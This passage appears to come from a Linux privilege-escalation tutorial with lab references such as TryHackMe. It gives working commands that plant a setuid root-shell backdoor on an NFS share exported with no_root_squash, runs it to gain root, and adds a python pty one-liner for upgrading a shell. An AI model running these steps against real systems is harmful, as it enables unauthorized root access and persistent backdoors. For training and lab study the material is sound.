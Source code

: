 Now, anything written in /tmp/1 is actually written to the remote /tmp on the NFS server.
* Create a SUID Binary to Get Root

Now that we have root privileges on the NFS share, let's create and compile a root shell.
Write the Root Shell Code

`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c`

    This simple C program will launch a root shell when executed.

Compile the Program

`gcc /tmp/1/x.c -o /tmp/1/x`

    This creates an executable binary named `x.`

Set the SUID Bit

`chmod +s /tmp/1/x`

    SUID (chmod +s) allows the program to run as root, even for normal users.

* Execute the Root Shell

Now, exit the NFS mount and try running the backdoor shell:

`/tmp/1/x`

Then, verify if we got root access:

`id`

If successful, output should be:

uid=0(root) gid=0(root) groups=0(root)

## Spawn a Fully Interactive TTY Shell

If you're www-data, try upgrading your shell:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```














## References

[Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

[SUID vs Capabilities](https://mn3m.info/posts/suid-vs-capabilities/)

[Linux Capabilities Privilege Escalation](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

[TryHackMe Linux PrivEsc Arena](https://tryhackme.com/r/room/linuxprivescarena)
[Linux Privilege Escalation Techniques](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
[strace Documentation](https://man7.org/linux/man-pages/man1/strace.1.html)

